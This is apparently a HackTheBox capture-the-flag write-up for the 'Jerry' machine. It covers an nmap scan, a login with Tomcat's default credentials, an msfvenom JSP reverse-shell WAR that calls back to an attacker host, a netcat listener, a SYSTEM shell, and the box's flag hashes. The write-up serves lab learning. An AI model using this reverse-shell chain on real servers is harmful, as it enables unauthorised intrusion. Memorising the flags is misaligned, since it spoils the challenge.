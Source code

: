 ```yaml
---
title: Jerry Machine Writeup- HackTheBox
date: 2020-12-3 10:30:00
excerpt: A retired windows box from HackTheBox, owned by abusing default password in Apache Tomcat installation and
         deploying a war package.
thumbnail: /assets/images/Jerry/info.png
categories:
- HTB
- Writeup
- Machine
tags:
- Windows
- Apache Tomcat
- war deployment
- without metasploit
---
```


![Info](/assets/images/Jerry/info.png)

# Methodology
1. Open Ports Enumeration
2. Web Service Enumeration
3. Default credentials identified
4. Reverse shell deployed as 'war' package
5. Foothold gained as SYSTEM user

# Lessons Learned
1. Identifying Apache Tomcat default credentials
2. Deploying reverse shell as war package

# Open Ports Enumeration
The open ports enumeration through targetRecon[^fn1], had identified only one open port, web service, **HTTP** (8080). 
The scan had not identified any known vulnerabilities through vulnerability scan. The results of the scan are given 
below.
``` 
~/HTB/Tracks/Beginner/Jerry/ targetRecon 10.10.10.95
[+] Open Ports Scan
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
		8080    http-proxy
[+] Scripts Scan
				 nmap -sV -A --script=default,vuln -p 8080 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-03 15:35 IST
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 563.19 seconds

[+] Summary 
8080    http-proxy      Apache Tomcat/Coyote JSP engine 1.1
				No vuln found
```

# Web Service Enumeration
Browsing to [http://10.10.10.95:8080](http://10.10.10.95:8080) revealed an *Apache Tomcat* installation, with a link to 
[Manager App](http://10.10.10.95:8080/manager/html). The error page, received after attempting multiple wrong 
credentials revealed the default credentials **tomcat:s3cret**. The same is shown on the image given below.

![Default Credentials](/assets/images/Jerry/manager.png)

# Foothold
Using the default credentials gave access to the **Admin Panel** of Apache Tomcat installation. A *reverse shell*, as a
**war package** was then generated using **msfvenom** as shown on the following command.
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9095 -f war > revShell.war
```
The *war* package was then uploaded through the admin panel. A *netcat* listener on port 9095 was initiated, and the 
reverse shell was triggered by visiting [http://10.10.10.95:8080/revShell/](http://10.10.10.95:8080/revShell/). This 
resulted in a shell, as a **SYSTEM** user being caught on the listener. The same is shown on the section given below.
```shell
b4bygroot@arcolinux:~/HTB/Tracks/Beginner/Jerry % nc -nvlp 9095                                                                           
Connection from 10.10.10.95:49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system


b4bygroot@arcolinux:~/HTB/Tracks/Beginner/Jerry % nc -nvlp 9095
Connection from 10.10.10.95:49195
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
cd C:\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
![SYSTEM Shell](/assets/images/Jerry/flags.png)

# System Owned
![System Owned](/assets/images/Jerry/systemown.png)

# Resources
[^fn1]:[targetRecon](https://github.com/b4bygroot/TargetRecon)